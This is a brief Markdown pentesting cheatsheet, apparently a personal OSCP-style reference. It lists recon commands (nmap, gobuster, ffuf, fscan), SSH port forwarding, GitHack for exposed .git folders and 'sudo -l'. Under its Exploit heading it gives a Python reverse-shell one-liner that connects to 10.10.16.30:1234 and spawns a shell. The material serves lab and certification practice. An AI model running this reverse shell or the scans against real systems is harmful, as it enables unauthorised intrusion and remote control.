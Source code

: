 ```yaml
---
title : "Cheatsheet"
author: imdang 🤞🤞
date: 2024-10-23 11:33:00 +0800
categories: [Cheatsheet]
tags: [nmap,gobuster,ffuf,jadx,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### Nmap

```console
nmap -sV -sC --min-rate=1000 -p- <IP> -o nmap
```

### Gobuster



```console
Dirsearch
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS>
Break status code
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS> -b <BREAK_STATUSCODE>
```

### ffuf

```console
Subdomain search
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H “Host: FUZZ.site.com” -u http://site.com
```

### fscan
Scan host in network
Shadow1ng/fscan (github.com)
```console
./fscan -h 172.0.0.1/24
```

### SSH Port Forwarding

```console
ssh -L <PORT IN LOCAL>:<IP>:<PORT IN SERVER> username@<IP SERVER>
```

# Exploit

### Python reverse shell

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
### Stable reverse shell
```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### GitHack - Exploit ```.git``` 
 lijiejie/GitHack: Khai thác tiết lộ thư mục `.git` (github.com)
```console
Githack
python GitHack.py http://site.htb/.git/
```


# Privilege Escalation 

### Check sudo file permissions

```console
sudo -l
```

# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
